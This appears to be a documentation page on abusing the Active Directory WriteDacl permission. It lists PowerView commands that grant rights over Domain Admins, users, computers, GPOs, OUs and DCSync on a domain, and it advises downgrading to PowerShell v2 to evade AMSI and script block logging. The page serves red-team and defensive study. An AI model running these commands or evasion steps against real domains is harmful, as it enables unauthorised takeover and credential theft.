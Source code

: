 ---
title: WriteDacl
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

With write access to the target object’s DACL, you can grant yourself any privilege you want on the object.

Abuse Info[](#h_01HM2CH96APS2E6T2092J4CRR8)
-------------------------------------------

With the ability to modify the DACL on the target object, you can grant yourself almost any privilege against the object you wish.

**Groups**

With WriteDACL over a group, grant yourself the right to add members to the group:

Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers

See the abuse info for AddMembers edge for more information about execution the attack from there.

**Users**

With WriteDACL over a user, grant yourself full control of the user object:

Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All

See the abuse info for GenericAll over a user for more information about how to continue from there.

**Computers**

With WriteDACL over a computer object, grant yourself full control of the computer object:

Add-DomainObjectAcl -TargetIdentity windows1 -Rights All

See the abuse info for GenericAll over a computer for more information about how to continue from there.

**Domains**

With WriteDACL against a domain object, grant yourself the ability to DCSync:

Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync

Then perform the DCSync attack.

**GPOs**

With WriteDACL over a GPO, grant yourself full control of the GPO:

Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All

Then edit the GPO to take over an object the GPO applies to.

**OUs**

With WriteDACL over an OU, grant yourself full control of the OU:

Add-DomainObjectAcl -TargetIdentity (OU GUID) -Rights All

Then add a new ACE to the OU that inherits down to child objects to take over those child objects.

Opsec Considerations[](#h_01HM2CH96B67RT53RDDN20Z9R9)
-----------------------------------------------------

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security mechanisms that make it much easier for defenders to see what’s going on with PowerShell in their network, such as script block logging and AMSI. You can bypass those security mechanisms by downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller that handled the request.

Additional opsec considerations depend on the target object and how to take advantage of this privilege.

References[](#h_01HM2CH96B42XD736RMHC41Q0Q)
-------------------------------------------

* [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* [https://www.youtube.com/watch?v=z8thoG7gPd0](https://www.youtube.com/watch?v=z8thoG7gPd0)
* [https://eladshamir.com/2019/01/28/Wagging-the-Dog.html](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)
* [https://github.com/GhostPack/Rubeus#s4u](https://github.com/GhostPack/Rubeus#s4u)
* [https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
* [https://blog.harmj0y.net/redteaming/another-word-on-delegation/](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
* [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* [https://github.com/Kevin-Robertson/Powermad#new-machineaccount](https://github.com/Kevin-Robertson/Powermad#new-machineaccount)
* [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectorysecurityinheritance?view=netframework-4.8](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectorysecurityinheritance?view=netframework-4.8)

